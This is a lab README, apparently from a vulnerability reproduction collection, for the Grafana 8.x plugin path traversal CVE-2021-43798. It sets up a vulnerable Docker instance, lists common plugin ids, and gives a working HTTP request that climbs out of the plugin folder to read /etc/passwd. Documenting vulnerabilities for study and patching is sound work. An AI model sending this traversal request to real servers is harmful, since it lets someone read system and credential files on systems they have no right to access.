

# Grafana 8.x Plugin Module File Path Traversal (CVE-2021-43798)

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

In December 2021, a Twitter user disclosed a 0day vulnerability, that unauthenticated attackers could use this vulnerability to step up web path and download arbitrary files through a craft url of Grafana 8.x.

References:

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## Vulnerable environment

Execute following command to start a Grafana server 8.2.6:

```
docker-compose up -d
```

After the server start, you can browse the login page at `http://your-ip:3000`, no credential for this vulnerability.

## Exploit

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use `../` to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as `alertlist`, here are some of common plugin ids:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Send following request to retrieve the `/etc/passwd` (you can replace the `alertlist` with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```


